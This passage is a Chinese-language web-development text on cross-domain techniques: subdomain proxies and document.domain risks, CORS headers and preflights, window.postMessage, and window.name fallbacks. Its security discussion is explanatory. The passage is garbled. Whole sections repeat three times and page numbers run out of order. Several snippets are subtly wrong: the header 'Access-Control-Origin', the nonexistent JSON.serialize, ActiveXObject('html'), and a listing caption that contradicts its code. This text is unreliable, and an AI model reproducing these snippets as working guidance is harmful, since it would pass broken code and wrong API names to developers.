我们到为止涵盖的两种技术——`JSONP` 和子域代理——可以被模糊描述为“黑科技”。我们展示了如何通过以并非设计的方式利用某些元素来绕过同源策略的限制。

跨源资源共享（`CORS`）是第一种“官方”技术。它实际上是一个 W3C 工作草案，定义了浏览器和服务器如何以受控的方式跨域通信。`CORS` 通过一系列特殊的 HTTP 标头来实现这一点，允许双方（浏览器和服务器）确定请求应该成功还是失败。

在我们介绍这些标头之前，先说一些历史。跨源支持最初被提议包含在 `VoiceXML` 中，这是 W3C 用于人与机之间交互式语音对话的标准格式。后来决定跨源机制并非 `VoiceXML` 特有，最终被分离到实现说明（Implementation Note）中。另一个工作组——W3C WebApps WG 在主要浏览器厂商的帮助下，开始努力将该文档正式化为工作草案。

`CORS` 现在正朝着正式的 W3C 推荐（Recommendation）状态推进。但不要让它尚未完成的状态吓到你——`CORS` 已经有了重大的浏览器支持，未来对规范的任何更改可能都是微小的。

在本节中，你将学习如何使用 `CORS` 在不同源之间发送简单的 HTTP 请求。你还将学习 `CORS` 预检请求，以及如何利用它们验证客户端对资源的访问。最后，我们还将概述浏览器支持问题；并非所有的浏览器都实现了完整的 `CORS` 规范。

### 4.4.1 发送简单的 HTTP 请求

在发起跨源 HTTP 请求时，支持 `CORS` 的浏览器通过包含一个名为 `Origin` 的额外标头来指示请求的源。该标头的值与同源策略使用的三元组相同：协议、主机和端口：

```
Origin: http://www.example.com/
```

服务器的工作是检查该标头并决定请求是否成功。如果它决定允许请求，它必须返回 `Access-Control-Origin` 标头，回显发送的源。如果资源是公共的，服务器也可以发送通配符（`*`）：

```
Access-Control-Origin: *
```

如果请求没有 `Origin` 标头（可能不支持 `CORS`），服务器不应返回任何标头。现在，当浏览器接收响应时，会检查 `Access-Control-Origin` 标头。如果它与发送的源匹配，则允许请求：

```
Access-Control-Origin: http://www.example.com/
```

**124**

**100**

## 第 4 章

### 与服务器通信

这段代码在 Chrome、Firefox、Opera 和 Internet Explorer 9 中运行良好。但当子页面尝试与父页面通信时，IE8 会抛出“拒绝访问”错误。在子页面中移除 `document.domain` 部分并不能解决问题，而且也没有意义，因为双方都必须选择加入同源才能进行通信。问题在于 Internet Explorer 8 存在一个浏览器漏洞，阻止了顶层域名与其子域进行通信。遗憾的是，在微软修复它之前，目前没有已知的替代方案。

这意味着什么？为了支持 IE8，子域代理对于那些*也*通过子域服务的发布者网站来说是可行的。这通常不是问题；许多网站通过标准的 `www` 子域（`www.publisher.com`）提供服务。如果不是这样，它们也可以通过更新 DNS 记录轻松开始使用 `www` 子域。尽管如此，这是另一种子域代理需要发布者配合才能有效工作的情况。

### 4.3.5 安全影响

撇开 Internet Explorer 的漏洞不谈，子域代理是有用的。如果它们没有在你的第三方脚本中找到用例，你可能会在其他地方以某种形式使用它们。在使用子域代理时，你必须始终记住与之相关的安全问题。

首先，`document.domain` 属性可能是安全漏洞的根源。当任何两个合法子域（例如 `status.example.com` 和 `auth.example.com`）加入同一个域名命名空间时，从该域名提供的任何其他资源都可以将它们的 `document.domain` 属性设置为 `example.com`，并获取合法子域的属性和方法。因此，如果你在 `pages.example.com` 上托管了用户页面，且可以运行任意 JavaScript 代码，那么将任何其他子域加入顶层命名空间并不是好主意，因为这些用户代码可能会访问它们。

此外，`document.domain` 的行为规范并不完善。例如，对于 `document.domain` 如何处理像 `.com` 或 `.org` 这样的顶层域名，或者对于通过 IP 地址访问的应该应该有什么行为，并没有统一的规则。曾几何时，浏览器暴露了一个巨大的安全漏洞，允许本地保存的文件（`file://`）访问磁盘或网络上的所有文件。幸运的是，这种行为已被修复，但它是由规范不当导致安全漏洞的良佳示例。

#### 谷歌浏览器安全手册

如果你对学习更多关于同源策略及其相关安全风险感兴趣，你会想要阅读谷歌的《浏览器安全手册》第 2 部分（`http://code.google.com/p/browsersec/wiki/Part2`）。这篇文章是一个非常好的资源，遗憾的是，并没有很多人知道它。

我们刚刚查看了启用跨域请求的一种方法，尽管它只在很窄的场景下有效——即所有参与方共享相同的更高级域名——但你偶尔可能会发现它很有用。在使用它时，你应该始终意识到其安全风险，并在实际实现中要小心。

**99**

### 4.4 跨源资源共享

我们到为止涵盖的两种技术——`JSONP` 和子域代理——可以被模糊描述为“黑科技”。我们展示了如何通过以并非设计的方式利用某些元素来绕过同源策略的限制。

跨源资源共享（`CORS`）是第一种“官方”技术。它实际上是一个 W3C 工作草案，定义了浏览器和服务器如何以受控的方式跨域通信。`CORS` 通过一系列特殊的 HTTP 标头来实现这一点，允许双方（浏览器和服务器）确定请求应该成功还是失败。

在我们介绍这些标头之前，先说一些历史。跨源支持最初被提议包含在 `VoiceXML` 中，这是 W3C 用于人与机之间交互式语音对话的标准格式。后来决定跨源机制并非 `VoiceXML` 特有，最终被分离到实现说明（Implementation Note）中。另一个工作组——W3C WebApps WG 在主要浏览器厂商的帮助下，开始努力将该文档正式化为工作草案。

`CORS` 现在正朝着正式的 W3C 推荐（Recommendation）状态推进。但不要让它尚未完成的状态吓到你——`CORS` 已经有了重大的浏览器支持，未来对规范的任何更改可能都是微小的。

在本节中，你将学习如何使用 `CORS` 在不同源之间发送简单的 HTTP 请求。你还将学习 `CORS` 预检请求，以及如何利用它们验证客户端对资源的访问。最后，我们还将概述浏览器支持问题；并非所有的浏览器都实现了完整的 `CORS` 规范。

### 4.4.1 发送简单的 HTTP 请求

在发起跨源 HTTP 请求时，支持 `CORS` 的浏览器通过包含一个名为 `Origin` 的额外标头来指示请求的源。该标头的值与同源策略使用的三元组相同：协议、主机和端口：

```
Origin: http://www.example.com/
```

服务器的工作是检查该标头并决定请求是否成功。如果它决定允许请求，它必须返回 `Access-Control-Origin` 标头，回显发送的源。如果资源是公共的，服务器也可以发送通配符（`*`）：

```
Access-Control-Origin: *
```

如果请求没有 `Origin` 标头（可能不支持 `CORS`），服务器不应返回任何标头。现在，当浏览器接收响应时，会检查 `Access-Control-Origin` 标头。如果它与发送的源匹配，则允许请求：

```
Access-Control-Origin: http://www.example.com/
```

**124**

**100**

## 第 4 章

### 与服务器通信

这段代码在 Chrome、Firefox、Opera 和 Internet Explorer 9 中运行良好。但当子页面尝试与父页面通信时，IE8 会抛出“拒绝访问”错误。在子页面中移除 `document.domain` 部分并不能解决问题，而且也没有意义，因为双方都必须选择加入同源才能进行通信。问题在于 Internet Explorer 8 存在一个浏览器漏洞，阻止了顶层域名与其子域进行通信。遗憾的是，在微软修复它之前，目前没有已知的替代方案。

这意味着什么？为了支持 IE8，子域代理对于那些*也*通过子域服务的发布者网站来说是可行的。这通常不是问题；许多网站通过标准的 `www` 子域（`www.publisher.com`）提供服务。如果不是这样，它们也可以通过更新 DNS 记录轻松开始使用 `www` 子域。尽管如此，这是另一种子域代理需要发布者配合才能有效工作的情况。

### 4.3.5 安全影响

撇开 Internet Explorer 的漏洞不谈，子域代理是有用的。如果它们没有在你的第三方脚本中找到用例，你可能会在其他地方以某种形式使用它们。在使用子域代理时，你必须始终记住与之相关的安全问题。

首先，`document.domain` 属性可能是安全漏洞的根源。当任何两个合法子域（例如 `status.example.com` 和 `auth.example.com`）加入同一个域名命名空间时，从该域名提供的任何其他资源都可以将它们的 `document.domain` 属性设置为 `example.com`，并获取合法子域的属性和方法。因此，如果你在 `pages.example.com` 上托管了用户页面，且可以运行任意 JavaScript 代码，那么将任何其他子域加入顶层命名空间并不是好主意，因为这些用户代码可能会访问它们。

此外，`document.domain` 的行为规范并不完善。例如，对于 `document.domain` 如何处理像 `.com` 或 `.org` 这样的顶层域名，或者对于通过 IP 地址访问的应该应该有什么行为，并没有统一的规则。曾几何时，浏览器暴露了一个巨大的安全漏洞，允许本地保存的文件（`file://`）访问磁盘或网络上的所有文件。幸运的是，这种行为已被修复，但它是由规范不当导致安全漏洞的良佳示例。

#### 谷歌浏览器安全手册

如果你对学习更多关于同源策略及其相关安全风险感兴趣，你会想要阅读谷歌的《浏览器安全手册》第 2 部分（`http://code.google.com/p/browsersec/wiki/Part2`）。此篇文章是一个非常好的资源，遗憾的是，并没有很多人知道它。

我们刚刚查看了启用跨域请求的一种方法，尽管它只在很窄的场景下有效——即所有参与方共享相同的更高级域名——但你偶尔可能会发现它很有用。在使用它时，你应该始终意识到其安全风险，并在实际实现中要小心。

**99**

### 4.4 跨源资源共享

我们到为止涵盖的两种技术——`JSONP` 和子域代理——可以被模糊描述为“黑科技”。我们展示了如何通过以并非设计的方式利用某些元素来绕过同源策略的限制。

跨源资源共享（`CORS`）是第一种“官方”技术。它实际上是一个 W3C 工作草案，定义了浏览器和服务器如何以受控的方式跨域通信。`CORS` 通过一系列特殊的 HTTP 标头来实现这一点，允许双方（浏览器和服务器）确定请求应该成功还是失败。

在我们介绍这些标头之前，先说一些历史。跨源支持最初被提议包含在 `VoiceXML` 中，这是 W3C 用于人与机之间交互式语音对话的标准格式。后来决定跨源机制并非 `VoiceXML` 特有，最终被分离到实现说明（Implementation Note）中。另一个工作组——W3C WebApps WG 在主要浏览器厂商的帮助下，开始努力将该文档正式化为工作草案。

`CORS` 现在正朝着正式的 W3C 推荐（Recommendation）状态推进。但不要让它尚未完成的状态吓到你——`CORS` 已经有了重大的浏览器支持，未来对规范的任何更改可能都是微小的。

在本节中，你将学习如何使用 `CORS` 在不同源之间发送简单的 HTTP 请求。你还将学习 `CORS` 预检请求，以及如何利用它们验证客户端对资源的访问。最后，我们还将概述浏览器支持问题；并非所有的浏览器都实现了完整的 `CORS` 规范。

### 4.4.1 发送简单的 HTTP 请求

在发起跨源 HTTP 请求时，支持 `CORS` 的浏览器通过包含一个名为 `Origin` 的额外标头来指示请求的源。该标头的值与同源策略使用的三元组相同：协议、主机和端口：

```
Origin: http://www.example.com/
```

服务器的工作是检查该标头并决定请求是否成功。如果它决定允许请求，它必须返回 `Access-Control-Origin` 标头，回显发送的源。如果资源是公共的，服务器也可以发送通配符（`*`）：

```
Access-Control-Origin: *
```

如果请求没有 `Origin` 标头（可能不支持 `CORS`），服务器不应返回任何标头。现在，当浏览器接收响应时，会检查 `Access-Control-Origin` 标头。如果它与发送的源匹配，则允许请求：

```
Access-Control-Origin: http://www.example.com/
```

**124**

**100**

## 第 4 章

### 与服务器通信

这段代码在 Chrome、Firefox、Opera 和 Internet Explorer 9 中运行良好。但当子页面尝试与父页面通信时，IE8 会抛出“拒绝访问”错误。在子页面中移除 `document.domain` 部分并不能解决问题，而且也没有意义，因为双方都必须选择加入同源才能进行通信。问题在于 Internet Explorer 8 存在一个浏览器漏洞，阻止了顶层域名与其子域进行通信。遗憾的是，在微软修复它之前，目前没有已知的替代方案。

这意味着什么？为了支持 IE8，子域代理对于那些*也*通过子域服务的发布者网站来说是可行的。这通常不是问题；许多网站通过标准的 `www` 子域（`www.publisher.com`）提供服务。如果不是这样，它们也可以通过更新 DNS 记录轻松开始使用 `www` 子域。尽管如此，这是另一种子域代理需要发布者配合才能有效工作的情况。

### 4.3.5 安全影响

撇开 Internet Explorer 的漏洞不谈，子域代理是有用的。如果它们没有在你的第三方脚本中找到用例，你可能会在其他地方以某种形式使用它们。在使用子域代理时，你必须始终记住与之相关的安全问题。

首先，`document.domain` 属性可能是安全漏洞的根源。当任何两个合法子域（例如 `status.example.com` 和 `auth.example.com`）加入同一个域名命名空间时，从该域名提供的任何其他资源都可以将它们的 `document.domain` 属性设置为 `example.com`，并获取合法子域的属性和方法。因此，如果你在 `pages.example.com` 上托管了用户页面，且可以运行任意 JavaScript 代码，那么将任何其他子域加入顶层命名空间并不是好主意，因为这些用户代码可能会访问它们。

此外，`document.domain` 的行为规范并不完善。例如，对于 `document.domain` 如何处理像 `.com` 或 `.org` 这样的顶层域名，或者对于通过 IP 地址访问的应该应该有什么行为，并没有统一的规则。曾几何时，浏览器暴露了一个巨大的安全漏洞，允许本地保存的文件（`file://`）访问磁盘或网络上的所有文件。幸运的是，这种行为已被修复，但它是由规范不当导致安全漏洞的良佳示例。

#### 谷歌浏览器安全手册

如果你对学习更多关于同源策略及其相关安全风险感兴趣，你会想要阅读谷歌的《浏览器安全手册》第 2 部分（`http://code.google.com/p/browsersec/wiki/Part2`）。此篇文章是一个非常好的资源，遗憾的是，并没有很多人知道它。

我们刚刚查看了启用跨域请求的一种方法，尽管它只在很窄的场景下有效——即所有参与方共享相同的更高级域名——但你偶尔可能会发现它很有用。在使用它时，你应该始终意识到其安全风险，并在实际实现中要小心。

Listing 4.8

一个使用 CORS 创建跨域请求的函数

**符合标准且支持 CORS 的浏览器**

**支持 CORS 的 Internet Explorer**

**不支持 CORS 的浏览器**

```javascript
function makeCORSRequest(url, method) {
    if (typeof XMLHttpRequest === "undefined") {
        return null;
    }
    var xhr = new XMLHttpRequest();
    if ("withCredentials" in xhr) {
        xhr.open(method, url, true);
    } else if (typeof XDomainRequest !== "undefined") {
        xhr = new XDomainRequest();
        xhr.open(method, url);
    } else {
        xhr = null;
    }
    return xhr;
}
```

**99**

## 第 4 章

### 与服务器通信

### 4.4.2 使用 CORS 传输 cookies

默认情况下，浏览器不会在 CORS 请求中发送任何身份识别信息——例如 cookies 或 HTTP 认证头。为了表明请求应该发送身份识别信息，你必须将 `XmlHttpRequest` 对象的 `withCredentials` 属性设置为 `true`：

```javascript


## 第 4 章 与服务器通信

### 4.4.2 使用 CORS 传输 cookies

默认情况下，浏览器不会在 CORS 请求中发送任何身份识别信息——例如 cookies 或 HTTP 认证头。为了表明请求应该发送身份识别信息，你必须将`XmlHttpRequest`对象的`withCredentials`属性设置为`true`：

```javascript
var xhr = new XmlHttpRequest();
xhr.withCredentials = true;
```

如果服务器期望并支持身份识别信息，它应该返回一个相应的特殊 HTTP 标头，称为`Access-Control-Allow-Credentials`（除了`Access-Control-Allow-Origin`之外）。当`withCredentials`为`true`时，如果没有返回此标头，浏览器将拒绝响应：

```
Access-Control-Allow-Credentials: true
```

遗憾的是，`withCredentials`属性仅适用于`XMLHttpRequest`属性——而不适用于`XDomainRequest`。这意味着 Internet Explorer 8 和 9 不支持带有凭据的请求，无法使用 CORS 传输 cookies。这应该在 Internet Explorer 10 中得到解决，它预计将实现最新的 W3C 标准`XMLHttpRequest` Level 2。

### 4.4.3 发送预检请求

使用 CORS 时，如果你的请求方法是 GET、POST 或 HEAD 以外的方法，或者你发送了自定义 HTTP 头，浏览器将发送一个所谓的*预检请求*（preflight request）。预检请求是一种服务器验证机制，允许双方在执行实际请求之前决定该尝试是否合法。

当你尝试向服务器发送此类非简单请求时，浏览器会发送一个包含原始请求方法及其标头信息的预检请求。服务器随后需要决定是否允许该请求，并传回必要信息。预检请求始终使用一种特殊的 HTTP 方法——`OPTIONS`进行传输。

为了通知服务器即将到来的请求并获取权限，客户端会发送以下标头：

- `Origin`—请求的源
- `Access-Control-Request-Method`—请求预期的 HTTP 方法
- `Access-Control-Request-Headers`—请求想要使用的自定义标头列表（用逗号分隔）

服务器随后通过在响应中发送以下标头与客户端通信：

- `Access-Control-Allow-Origin`—允许的源（必须与请求中的`Origin`标头匹配）
- `Access-Control-Allow-Methods`—允许的方法列表（用逗号分隔）
- `Access-Control-Allow-Headers`—允许的标头列表（用逗号分隔）
- `Access-Control-Max-Age`—此预检请求缓存的时间（秒）
- `Access-Control-Allow-Credentials`—表示请求的是否支持带有凭据的请求（可选）

客户端接收到服务器的响应后，它将使用之前声明的 HTTP 方法和标头发送*真实*请求。此外，预检响应会被浏览器缓存。在缓存期间（在`Access-Control-Max-Age`持续的时间内），任何后续相同类型的请求将不会触发额外预检请求的开销。

遗憾的是，对 CORS 预检请求的支持相当有限：它们仅在 Firefox、Safari 和 Chrome 中实现。再次，我们被 Internet Explorer 坑害了，因为它目前不支持预检请求。Internet Explorer 10 的到来真是越快越好。

### 4.4.4 浏览器支持

考虑到所有因素，现代浏览器对跨源资源共享有坚实的支持，但遗憾的是，对于 Web 开发者来说仍然是一项相对不为人知的技术。我们认为 CORS 可以为跨域 AJAX 提供更好的工具，并希望浏览器继续改进对它的支持。但你今天应该使用什么？我们强烈建议你尽可能尝试使用 CORS，只有在不可用时才回退到其他方法——例如 JSONP。这样，你就能始终确保随着浏览器继续改进对 CORS 的支持，你的应用程序不会崩溃，而且你始终在使用可用的定义最清晰的技术。

表 4.2 显示了哪些浏览器和哪些版本实现了 CORS 规范（另见 http://caniuse.com/cors）。

**表 4.2 CORS 浏览器兼容性表**

| 浏览器 | 支持 CORS? |
| :--- | :--- |
| Mozilla Firefox | 是，3.5 及以上版本。 |
| Google Chrome | 是，3 及以上版本。 |
| Apple Safari | 是，4 及以上版本。 |
| Microsoft Internet Explorer 8 和 9 | 部分支持——使用`XDomainRequest`，不支持预检请求或带有凭据的请求。 |
| Microsoft Internet Explorer 10 | 是。 |
| Opera Desktop | 是，12 及以上版本。 |
| Opera Mobile | 是，12 及以上版本。 |
| Apple iOS Safari | 是。 |
| Google Android Browser | 是。 |

### 4.5 总结

本章专门介绍了同源策略以及你可以用来绕过它的基本技术。现在你应该清楚地理解 SOP 是什么、它是如何工作的、影响哪些类型的通信，以及当你尝试跨不同域发送消息时你有哪些选择。

现在自然的问题是如何决定为你的应用程序使用哪种技术。我们建议始终从 CORS 开始，因为它是进行跨域请求最稳定、文档最全且面向未来的方式。对于不支持 CORS 的浏览器，最简单的替代方案是使用 JSONP，但这意味着你将无法上传文件或发送长轮询等。子域名代理对它们使用的请求类型没有限制，但它们只允许子域之间的消息传递，并且只有在发布者较少时才有意义。至于产品本身，这些解决方案中没有一个是完美的。

## 第 5 章 跨域 iframe 消息传递

### 5.1.1 使用 window.postMessage 发送消息

使用`window.postMessage`非常简单。若要发送消息，你需要在想要接收消息的目标窗口上调用`postMessage`方法。目标窗口可以是全局窗口对象（执行你脚本的窗口上下文），也可以以下任何一个可能的接收者：

- 在你的文档窗口内创建的 iframes：
  `var iframe = document.getElementById('my-iframe');`
  `var win = iframe.contentWindow;`
- 你用 JavaScript 打开的弹出窗口：
  `var win = window.open(...);`
- 包含你的文档窗口的窗口：
  `var win = window.parent;`
- 以及打开你文档的窗口：
  `var win = window.opener;`

在获取目标 Window 对象的引用后，你就可以通过调用该对象上的特殊`postMessage`函数来向该窗口发送消息。该函数接受两个形式参数：要发送的数据（消息正文）和目标的源（origin）值：

```
postMessage: hello
```

| 目标文档 | | |
| :--- | :--- | :--- |
| `postMessage: world` | bar.com |
| | foo.com |
| foo.com 被识别 | bar.com 不被识别 |
| `postMessage: hello` | foo.com |

**图 5.1：** 从不同源向接收者发送两个消息的示例。接收者识别并处理一个源，而忽略另一个。

```javascript
Window {
  void postMessage(any message, string targetOrigin)
}
```


记住这个签名²，现在可以发送第一条消息了。这里有一个快速示例，消息正文为 *Hello, World!*，目标源为 `thirdpartyjs.com`，且 `Window` 对象被变量`win`引用：

```
win.postMessage('Hello, World!', 'http://thirdpartyjs.com/');
```

这里对“源（origin）”的定义与第 4 章完全相同——协议、主机名和端口的组合，它唯一标识了你尝试通信的主机。目标的源值定义了一个浏览器使用的过滤器，用于选择消息的接收者。只有当接收者的源值与`window.postMessage`调用中指定的值完全匹配时，消息才会传递给接收窗口。否则，浏览器将抛出异常，你的消息将直接进入 `/dev/null`。

通配符源（WILDCARD ORIGINS）

如果你不知道`postMessage`接收者的源值（或者你不在乎），可以将第二个参数设置为星号（`*`）通配符。这将导致`postMessage`在发送跨域消息时跳过源检查。当然，只有当你绝对确定任何文档接收你的消息都是可以的时候，才应该使用这种通配符方法。始终记住，浏览器窗口和 `iframe` 可能会随时被重定向；你信任的文档可能会被更改为其他随机文档，而你甚至毫无察觉。

最初，`window.postMessage` API 的实现仅允许你发送字符串消息。这意味着任何复杂的数据结构必须序列化为字符串（`JSON`）才能作为消息传输。但现代浏览器的最新版本允许你原生传递各种类型的数据对象。浏览器会自动使用所谓的*结构化克隆算法（structured clone algorithm）*对此类对象进行序列化——这是由 HTML5 规范定义的一种新算法，有助于序列化复杂的 `JavaScript` 对象。

JSON 与结构化克隆算法

尽管 `JSON` 是将 `JavaScript` 对象序列化为字符串（反之亦然）的事实标准，但它无法转换 `RegExp`、`Blob`、`File` 和 `ImageData` 等复杂数据类型。结构化克隆算法的设计是为了处理这些复杂情况。实现背后的作者还指出，在某些情况下，结构化克隆算法可能比 `JSON` 序列化更高效。`JSON` 在灵活性和性能上的损失，在兼容性上得到了补偿。结构化克隆算法并没有在所有浏览器中实现——包括 `IE8` 和 `IE9`——而任何浏览器都可以序列化和解析 `JSON`。因此，我们提倡结合`window.postMessage`使用`JSON`。

² 上述`window.postMessage`签名使用 Web IDL 编写，它是 W3C 用于定义浏览器中可脚本接口的 IDL（接口定义语言）变体。参见 http://www.w3.org/TR/WebIDL/。

www.it-ebooks.info

**109**

***HTML5 window.postMessage API***

`window.postMessage` 函数使用简单，这一小节已涵盖了它的大部分内容。但要意识到它只涵盖了消息问题的一半：发送消息。现在让我们来看看窗口如何*接收*消息。

*5.1.2*

*接收发送到窗口的消息*

正如你可能已经注意到的，当`postMessage`函数发送消息时，它不会向接收窗口请求任何确认。它将消息发布到窗口，如果窗口内的代码对进来的通信感兴趣，则必须订阅一个特殊事件。

订阅新消息非常简单：你为窗口的`message`事件附加一个监听器函数。每当从任何地方使用`postMessage`函数向窗口发布新消息时，你的监听器就会被调用。因为这是一个普通的浏览器事件，你的监听器将拥有一个`Event`对象，该对象暴露了三个属性：

- `data`：实际的消息（字符串或对象）
- `origin`：发送消息的主机
- `source`：发送消息的 `Window` 对象引用

以下是注册监听器的示例：

```
if (window.addEventListener) {
  window.addEventListener('message', receiver);
} else {
  window.attachEvent('onmessage', receiver);
}
```

从示例中可以看出，`window.postMessage` API 非常简单，它只解决了一个问题——窗口间的通信。一切——从简单的源检查到复杂的消息关系——都在`window.postMessage`规范之外，必须由你处理。我们将在本章后面向你展示如何构建一个简单的请求/响应系统。但现在让我们聊一个经常杀死新颖 `HTML` 或 `JavaScript` 特性热情的话题。让我们聊浏览器兼容性。（剧透：并不糟糕。）

*5.1.3*

*浏览器支持*

自诞生以来，`window.postMessage` API 已被所有主流浏览器采用——包括 Internet Explorer 8 及以上。这包含了今天的移动浏览器，如 iOS Safari、Android 浏览器和 Opera Mobile。这种相对较高的浏览器支持极大简化了像你这样的应用程序开发者的跨域消息任务。表 5.1 列出了哪些浏览器/版本实现了`window.postMessage`规范。

你可以看到，所有浏览器目前的稳定版本中都支持`window.postMessage` API。然而，并不是所有的`postMessage`实现都使用结构化克隆算法（见 5.1.1 节）传输原生 `JavaScript` 类型。这意味着通常通过 `JSON` 序列化仅传输字符串消息是最安全的。

**110**

第 5 章

***跨域 iframe 消息传递***

```
function receiver(ev) {
  if (ev.origin !== 'http://camerastork.com/') {
    return;
  }
  if (ev.data === 'hello') {
    ev.source.postMessage('world', 'http://camerastork.com/');
  }
}
```

列表 5.2：事件处理器拒绝来自 `camerastork.com` 的消息。

www.it-ebooks.info

**111**

***HTML5 window.postMessage API***

INTERNET EXPLORER POSTMESSAGE 局限性

尽管 Internet Explorer 8 和 9 实现了 `postMessage` API，但它们存在一些局限性。最显著的一点是它们仅允许向 `iframe` 元素发送消息。任何向专用窗口或标签页发送消息的尝试都会导致 *No such interface supported*（不支持此类接口）的错误消息。我们认为这是一个浏览器漏洞，遗憾的是，我们不知道有任何现有的替代方案（除非完全不使用 `postMessage`，我们稍后会解释这一点）。并不是所有的第三方应用程序都使用弹出窗口，因此此局限性可能不会影响到你。

此外，`IE8` 和 `IE9` 不支持上述的结构化克隆算法。这意味着在将数据作为参数传递给 `postMessage` 方法之前，你需要先使用 `JSON` 将数据序列化为字符串。由于 `IE8` 和 `IE9` 支持内置的 `JSON` 对象，这是轻而易举的（只需不要忘记在接收端解析数据即可）：

```
var data = JSON.serialize({ hello: "world" });
someWindow.postMessage(data, targetOrigin);
```

最后，你应该记住，Internet Explorer 8（以及更早版本）注册事件监听器的 API 略有不同：你需要调用 `attachEvent` 而不是 `addEventListener`：

```
function receiver(ev) { ... }
if (window.addEventListener) {
  window.addEventListener('message', receiver, false);
} else {
  window.attachEvent('onmessage', receiver);
}
```

尽管有这些局限性，Internet Explorer 8 和 9 上的 `window.postMessage` 仍然非常实用且强大。但对于旧版浏览器呢，比如 Internet Explorer 6 和 7 版本，它们虽然仍然拥有庞大的用户群，但完全不支持 `postMessage` API？在接下来的章节中，我们将查看一些在 `iframe` 之间发送消息的回退技术。这些方法并不总是那么美观，但在旧版浏览器中也能完成任务。让我们来看吧。

表 5.1: 
**window.postMessage** 浏览器兼容性表

| 浏览器 | 兼容性 |
| :--- | :--- |
| Mozilla Firefox | 3.5 及以上 |
| Google Chrome | 3 及以上 |
| Apple Safari | 4 及以上 |
| Microsoft Internet Explorer | 8 及以上（有局限性） |
| Opera Desktop | 9.5 及以上 |
| Opera Mobile | 10 及以上 |
| Apple iOS Safari | 3.2 及以上 |
| Google Android Browser | 2.1 及以上 |

**112**

第 5 章

***跨域 iframe 通信***

GOOGLE CHROME FRAME

Google 有一个名为 Google Chrome Frame 的优秀产品，它将 Google Chrome 的开放 Web 技术（包括 `window.postMessage`）以及更快的 `JavaScript` 引擎引入 Internet Explorer。你可以通过 http://google.com/chromeframe/ 了解更多。

*5.2*
*回退技术*

上一节中，你学习了如何使用新可用的 `window.postMessage` API 在 `iframe` 之间交换消息。你还了解到尽管现在的现代浏览器在稳定版本中支持 `postMessage`，但旧版浏览器（如 Internet Explorer 6 和 7）并没有该支持。对于这些浏览器，你必须使用一些黑客手段（hacks），通过使用未文档的浏览器功能在 `iframe` 和其父窗口之间传短字符串。本节描述的所有技术手段传输消息的速度都比 `window.postMessage` 慢得多，你应该只将其作为备份方案。

在本节中，我们将介绍三种回退技术：使用 `window.name` 属性、使用 URL 碎片标识符（或哈）以及使用 Adobe Flash 对象。所有这些技术都基于这样一个事实：某些浏览器在处理各自的组件时，会有意或无意地跳过同源策略检查。

顺便提一下，我们主要将查看这些传输机制的简单概念演示示例。我们希望你理解它们的工作原理，而不一定是如何将它们实现为 100% 的 `postMessage` 替代方案。因为它们可能会变得非常复杂，而且在本章的后后部分我们将查看 `easyXDM`，这是一个实际上为你实现了所有这些协议的消息库。

让我们来看第一种技术：使用 `window.name` 在窗口之间交换消息。

*5.2.1*
*使用 window.name 发送消息*

首先，`window.name` 属性是什么？该属性存储当前窗口的名称，以便其他窗口（如窗口的父窗口）可以根据名称获取它的引用。该属性有一个非常有价值的特性：在赋值值后，当窗口重定向到新 URL 时，该值不会改变。这种行为使得从不同源的文档读取其指定的 `window.name` 值成为可能，从而绕过同源策略并使跨域通信成为可能。

这是一个相当复杂的协议，为了最好的解释，我们将使用一个简单的 Hello World 示例。在发布者端，你创建一个新的 `iframe` 并将其 URL 分配到你域上的一个目标页面。加载时，该 `iframe` 将通过向 `window.name` 属性分配消息字符串来向父窗口发起一个新消息。但父页面无法直接读取此值，因为 `iframe` 托管在不同的域名上（记住：SOP）。为了修正这一点，`iframe`

**113**
**回退技术**

将自身重定向到你域上的 URL。这种程序流程见图 5.2。接下来显示了创建一个 `iframe` 并轮询消息的示例。

```
var iframe = document.createElement('iframe');
var body = document.getElementsByTagName('body')[0];
iframe.style.display = 'none';
iframe.src = 'http://yourdomain.com/target.html';
var done = false;
iframe.onreadystatechange = function () {
  if (iframe.readyState !== 'complete' || done) {
    return;
  }
  console.log('Listening');
  var name = iframe.contentWindow.name;
  if (name) {
    console.log('Data: ' + name);
    done = true;
  }
};
body.appendChild(iframe);
```

服务器端的代码也不复杂。它更改 `window.name` 然后重定向到一个 HTML 页面：

```
<!DOCTYPE html>
<html>
<head>
<script>
function init() {
  window.name = 'Hello, World!';
  window.location = 'http://yourdomain.com/empty.html';
}
</script>
</head>
<body onload="init();"></body>
</html>
```

这个 `empty.html` 文件正如其名：一个最小有效的 HTML 页面。你需要它是因为浏览器需要加载某些东西，所以它越小越好：

```
<!DOCTYPE html>
<html>
</html>
```

这种方法的一个缺点是，每当你想要检索新消息时都必须进行网络请求。此外，大多数情况下，插件开发者无法访问客户的网站，因此你在最后一步没有可以重定向的空页面。这意味着你要么要求用户在他们的网站上托管这样的页面，要么你必须重定向到客户端网站上的另一个随机 URL——例如 404 页面。使用这样的随机 URL 会通过增加对其页面的请求数来改变该网站的流量统计。

**114**

WINDOW.NAME 的安全影响

理论上，页面上加载的其他帧可能会尝试访问加载帧并将其重定向到自己的 URL，以便获取你放置在 `window.name` 属性中的数据。在实践中，从不是该 frame 的子帧或父帧的另一个帧导航到该 frame 是被浏览器禁止的，唯一的例外：Firefox 2。但那个版本的 Firefox 几乎没有市场份额了，所以你不应该太担心这种情况。

这只有部分正确。`easyXDM` 通过使用在客户端激进缓存的静态 `empty.html` 文件规避了这一局限性。

## 115
***回退技术（Fallback techniques）***

### 避免修改 window.location 引起的音效

`window.name` 技巧在旧版浏览器中效果很好，但有一个例外：`Internet Explorer 7` 及以下版本在每次位置变化时都会伴随着一种恼人的点击声。正如你想象的那样，如果你的应用程序使用这种技术发送了大量消息，你的电脑听起来就会像一台玩具机机关枪。

为了在 `Internet Explorer 6` 中解决这个问题，你需要在页面中添加一个 `<sound>` 元素。这会让浏览器认为有背景音乐在播放，从而在导航时不播放点击声。你不需要链接到实际声音文件——只需要一个空的 `<sound>` 标签即可（参见 [Mozilla Developer Network 的讨论](https://developer.mozilla.org/en/HTML/Element/sound)）。

遗憾的是，`<sound>` 技巧在 `Internet Explorer 7` 中不起，你将使用下文所示的替代方案。该变通方案依赖于 `ActiveX`，这是一种仅在 Internet Explorer（所有版本）中可 API。

```
var doc, iframe, html;
if ("ActiveXObject" in window) {
    html = "<html><body>" + "<iframe id='iframe'></iframe>" + "</body></html>";
    doc = new ActiveXObject("html");
    doc.write(html);
    doc.close();
    iframe = doc.getElementById('iframe');
} else {
    iframe = document.createElement('iframe');
    document.body.appendChild(iframe);
}
```


